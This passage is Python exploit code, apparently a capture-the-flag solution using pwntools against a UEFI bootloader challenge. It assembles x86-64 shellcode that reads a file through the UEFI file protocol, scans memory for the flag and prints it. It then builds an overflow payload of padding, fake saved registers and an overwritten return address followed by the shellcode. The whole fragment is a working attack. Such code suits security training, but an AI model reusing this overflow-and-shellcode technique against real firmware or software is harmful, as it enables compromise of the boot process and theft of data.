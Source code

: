 ```python
        not rbx
        mov [r8+{}], rbx
        """.format(hex(0xFFFFFFFFFFFFFFFF ^ u64(b)), i)
shellcode += """
mov rax, [rbp+8]
call rax
// file->Read(file, &size, buf)
mov r8d, {pFile}
mov rbp, [r8]
xor r8d, r8d
xor edx, edx
mov edx, 0x0101ffff
mov [rsp], rdx
mov rdx, rsp
mov rcx, rbp
mov rax, [rbp+0x20]
call rax
// find flag
mov rbx, 0x2d465443
xor edi, edi
lp:
mov eax, [rdi]
cmp rax, rbx
jz found
inc edi
jmp lp
found:
mov rcx, rdi
mov eax, {puts}
call rax
mov rcx, rdi
inc rcx
mov eax, {puts}
call rax
"""
shellcode = asm(
    shellcode.format(
        pSystemTable=addr_SystemTable,
        pSimpleFile=addr_SimpleFile,
        pProtocolGuid=addr_ProtocolGuid,
        pRoot=addr_Root,
        pFile=addr_File,
        pPath=addr_Path,
        pBuf=addr_Buf,
        puts=addr_print,
    )
)
print(shellcode)
assert b"\x00" not in shellcode


def enter_bootloader():
    sa(b"2J", b"\x1b\x5b\x32\x34\x7e" * 10)
    payload = b"\n" * (0x58 + 0x30)
    payload += p64(0xDEADBE00)  # rbx
    payload += p64(0xDEADBE01)  # r12
    payload += p64(0xDEADBE02)  # r13
    payload += p64(0xDEADBE03)  # rbp
    payload += p64(0x3EBC701)
    payload += b"\x90"
    payload += shellcode
    payload += b"\r"
    payload = payload.replace(b"\x00", b"\n")
```